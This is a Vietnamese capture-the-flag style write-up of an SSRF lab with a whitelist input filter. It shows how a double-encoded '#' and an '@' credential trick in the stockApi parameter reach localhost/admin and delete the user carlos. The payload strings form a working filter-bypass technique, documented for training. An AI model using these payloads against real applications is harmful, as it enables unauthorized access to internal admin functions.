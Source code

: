 ## SSRF with whitelist-based input filter

Mục đích của lab này chúng ta phải pass qua Whitelist

Bắt lại request checkStock và thay value của apiStock thành localhost sẽ bị ăn error như này. 

Có vẻ như web bắt buộc chúng ta phải bắt đầu bằng ***stock.weliketoshop.net***

![](/imgs/CSRF/13.png?raw=true)

Đổi lại như vậy thì lại ăn ngay lỗi mới

![](/imgs/CSRF/14.png?raw=true)

Cho đến khi test thử

**stockApi=http://localhost%25%32%33@stock.weliketoshop.net/admin** (stockApi=http://localhost#@stock.weliketoshop.net/admin)

![](/imgs/CSRF/15.png?raw=true)

**Đây là cấu trúc một URL API mà dựa vào đó mà ta có thể khai thác cách phân tích URL của một máy chủ**
***scheme://user:pass@host:port/path?query=value#fragment***

**Thêm thông tin đăng nhập vào URL trước hostname / Sử dụng # để chỉ ra nội dung của mục con**

![](/imgs/CSRF/16.png?raw=true)

Tiến hành xóa user carlos bằng

**stockApi=http://localhost%25%32%33@stock.weliketoshop.net/admin/delete?username=carlos**

![](/imgs/CSRF/17.png?raw=true)

### Tài liệu tham khảo
- [Public API:](https://yarl.readthedocs.io/en/latest/api.html) 
